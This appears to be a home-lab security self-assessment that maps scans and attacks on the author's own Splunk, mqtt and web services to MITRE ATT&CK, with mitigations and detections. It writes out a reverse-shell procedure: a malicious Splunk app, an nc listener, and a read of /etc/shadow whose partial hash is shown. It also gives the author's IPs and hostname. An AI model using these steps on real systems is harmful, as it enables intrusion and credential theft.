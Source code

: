 # MITTRE ATTACK analysis

# Iteration 1
This first iteration is based on the status where there were some exposed services.

| Tactics	| Techniques | Sub-tech	| Attack details	| Results	| Mitigations	| Detection	| Issues | Future actions |
|---|---|---|---|---|---|---|---|---|
|Reconnaissance TA0043	| Active Scanning	T1595	| Scanning IP Blocks 0.001	| connected via a mobile phone to get an externl IP ping home.pires.xyz results the 2.80.44.128 sudo nmap -sV | IP is 2.80.44.128 sudo nmap -sV home.rpires.xyz DNS record for 2.80.44.128: bl19-44-128.dsl.telepac.pt PORT     STATE  SERVICE  VERSION 80/tcp   open   http     lighttpd 1.4.69  113/tcp  closed ident 443/tcp  closed https  1883/tcp open mqtt 8000/tcp open   ssl/http Splunkd httpd |	M1056        Pre-compromise  detect and block uncommon data flows| My temporary IP is 87.196.80.59, which can be found at a webservice such as https://whatismyipaddress.com/. Or via cli with: dig +short myip.opendns.com @resolver1.opendns.com 87.196.80.59  There are 2 alerts generated, but the scan is not detected.|	No detection of uncommon data flows. | Create rules to indentify and block port scans.|
|Reconnaissance TA0043	| Active Scanning T1595	| Vulnerability Scanning 0.002	| splunk: https://book.hacktricks.xyz/network-services-pentesting/8089-splunkd Shodan does not find this server. mqtt: : mosquitto_sub -t ""#"" -h home.rpires.xyz 91 13 38.50| Above scan indentifies 3 open ports: 80, 1883 and 8000. Some analysis around the web raises some paths for an attack: - 80/lighttpd 1.4.69, no vulnerabilities found https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=lighttpd - 1883/mqtt, no vulnerabilities found. However a quick test confirms that mqtt is not secured. https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto - 8000/splunk: possibly unhautenticated, confirmed with accessing via a browser to https://home.rpires.xyz:8000/en-US/app/launcher/home. Authentication GUI is restricted to paid licenses. https://book.hacktricks.xyz/network-services-pentesting/8089-splunkd | M1042        Disable or Remove Feature or Program M1056        Pre-compromise activate authentication on splunk activate authentiction and encryption in mqtt service |	DS0029        Network Traffic not detected |	mqtt data is not encrypted neither the data sources are vetted, hence an adversary can listen and inject data. Splunk server may be compromised by a malicious actor by analyzing the logs and installing apps. One specific app may provide reverse shell | enable authentication on splunk enable authentiction and encryption in mqtt service |
|Reconnaissance TA0043	|Active Scanning T1595	|Wordlist Scanning 0.003	|dirbuster and zap scanning	|no major issues raised	|detect and block uncommon data flows such as scans or crawlers M1042        Disable or Remove Feature or Program M1056        Pre-compromise| DS0029        Network Traffic not detected |	none |updated ssh password and pihole password which were simple old passwords, collected in past breaches, confirmed in https://haveibeenpwned.com/|
|Initial Access TA0001	|Exploit Public-Facing Application	|n/a	|userless login to splunk server, then upload a malicious app as described in https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto	|root access to the splunk server machine	|The Spluk server can be protected by updating to the licensed version and thus: M1026        Privileged Account Management M1051        Update Software As last resort, put it in a DMZ: M1030        Network Segmentation Other mitigation is to use a reverse proxy: M1050        Exploit Protection |DS0015        Application Log, not detected DS0029        Network Traffic, not detected| root access to the splunk server machine	|track splunk application log, create reverse proxy access, consider licensing splunk, consider other FOSS tool|

After this initial access, the whole network is at stake, as the adversaty could:
* Persistance TA0003/T1098	Account Manipulation, create a new ssh account
* Lateral Movement TA0008/, all local machines and services could be compromised
  
## Attack steps and demo
* Guide: https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto
* Code: https://github.com/0xjpuff/reverse_shell_splunk
Step 1: git clone https://github.com/0xjpuff/reverse_shell_splunk
Step 2: edit the attacker IP (own IP) and specicy a new port
Step 3: tar and then rename to be packaged as a splunk app
Step 4: deploy in the target splunk, and then reboot

![pic](splunk_install_app.png)

Step 5: listen in your computer with e.g. sudo nc -nlvp "2224"
sudo nc -nlvp "2224"
[sudo] password for rpires: 
Listening on 0.0.0.0 2224
Connection received on 192.168.1.65 57714
┌──(root💀kali)-[/]
└─# cat /etc/shadow
cat /etc/shadow
root:!:18764:0:99999:7:::
....
user:$y$j9T$6Yi8mmJLaFPUnsIb/EUE31$9iJbm1a7TR/8SPry4ilRUqf5dQqcw1mDJlbdjRSGwsC:18764:0:99999:7:::



# **Iteration 2**
This iteration is based on the status where the splunk server is protected with a reverse proxy and further detections were added to Splunk.
